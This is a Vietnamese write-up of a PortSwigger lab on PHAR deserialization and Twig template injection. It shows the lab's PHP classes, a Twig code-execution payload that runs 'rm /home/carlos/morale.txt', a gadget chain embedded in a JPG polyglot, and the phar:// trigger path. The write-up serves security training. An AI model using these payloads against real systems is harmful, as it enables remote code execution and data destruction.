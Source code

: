 # Target Goal: 

To solve the lab, delete the morale.txt file from Carlos's home directory.

# Recon: 

Sau khi login, ta sẽ có session được cung cấp không có gtri gì

Kiểm tra các feature có trên trang web, trong đó có 1 gói sau khi upload avt, path này dẫn đến nơi chứa avt khi upload lên:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/8a609072-5c0c-45d3-a901-034db7eb1d64)

Truy cập vào ta có được không chỉ avt mà còn cả source code:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/1107c3d8-12dd-4517-9d83-50a59f541697)

Chúng ta biết rằng trang web này có sử dụng PHAR deserialization và đoạn sourcode tra về có sử dụng các hàm  file_exists, file_get_content. 

Như đã biết thì trang web có chức năng upload ảnh nhưng chỉ check magic bytes (file signature) -> Mình có thể sử chèn payload vào phía sau magic bytes để đảm bảo file hợp lệ nhưng vẫn giữ được chức năng ban đầu (kĩ thuật polygot).
```
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

Tiếp theo đến với file Blog.php:

Ở đây có $this->desc được truyền vào dữ liệu thông qua tham số index mà không qua bất kì validation nào -> Có thể chèn payload SSTI

Template engine được sử dụng và Twig và ta cần thực hiện lệnh OS để xóa file ->  Cần tìm cách exploit SSTI Twig Code Execution

```
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```
[Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig---code-execution) cần để thực hiện:
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

Cuối cùng là sử dụng tool này Polygot để file có định dạng jpg phù hợp với yêu cầu upload. [here](https://github.com/kunte0/phar-jpg-polyglot)

```
// our payload
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = "{{_self.env.registerUndefinedFilterCallback('system')}}{{_self.env.getFilter('rm /home/carlos/morale.txt')}}";
$blog->user = 'user';
$object->template_file_path = $blog;
```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/a150d267-34e7-46db-8da2-09f927bdd14c)

Lệnh để bắt đầu dùng tool: ` php -c php.ini phar_jpg_polyglot.php `

Upload file `out.jpg`:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/9ba773d6-d7ea-4d3b-8217-6f949d45c8a7)

file sẽ được lưu ở `cgi-bin/avatar.php?avatar=wiener`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/85f71c30-9fc5-46be-903f-a77c413949cf)

Tuy lưu trữ nhưng file lại chưa được trigger nên ta phải trigger nó bằng path `/cgi-bin/avatar.php?avatar=phar://wiene`

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3986f2f0-15bf-46e5-b8b9-e236c98d664f)
